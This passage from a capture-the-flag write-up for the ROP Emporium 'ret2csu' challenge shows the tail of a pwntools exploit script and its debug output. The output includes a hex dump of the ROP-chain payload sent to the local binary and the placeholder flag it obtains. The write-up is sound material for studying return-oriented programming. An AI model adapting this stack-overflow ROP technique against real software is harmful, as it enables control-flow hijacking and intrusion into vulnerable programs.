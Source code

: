 ```python
padding = b"A" * offset
payload = b"".join([
    padding,
    rop_chain
])

# Send the payload
io.clean()
io.sendline(payload)
io.interactive()
```

```
$ python3 exploit.py
[+] Starting local process './ret2csu' argv=[b'./ret2csu'] : pid 5951
[DEBUG] PLT 0x400500 pwnme
[DEBUG] PLT 0x400510 ret2win
[*] '/home/kali/ctf/rop-emporium/ret2csu/x64/ret2csu'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[DEBUG] Received 0x8c bytes:
    b'ret2csu by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'Check out https://ropemporium.com/challenge/ret2csu.html for information on how to solve this challenge.\n'
    b'\n'
    b'> '
[DEBUG] Sent 0xb9 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  9a 06 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000030  00 00 00 00  00 00 00 00  01 00 00 00  00 00 00 00  │····│····│····│····│
    00000040  48 0e 60 00  00 00 00 00  ef be ad de  ef be ad de  │H·`·│····│····│····│
    00000050  be ba fe ca  be ba fe ca  0d f0 0d d0  0d f0 0d d0  │····│····│····│····│
    00000060  80 06 40 00  00 00 00 00  00 00 00 00  00 00 00 00  │··@·│····│····│····│
    00000070  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    000000a0  a3 06 40 00  00 00 00 00  ef be ad de  ef be ad de  │··@·│····│····│····│
    000000b0  10 05 40 00  00 00 00 00  0a                        │··@·│····│·│
    000000b9
[*] Switching to interactive mode
[*] Process './ret2csu' stopped with exit code 0 (pid 5951)
[DEBUG] Received 0x2c bytes:
    b'Thank you!\n'
    b'ROPE{a_placeholder_32byte_flag!}\n'
Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

And we get the flag!
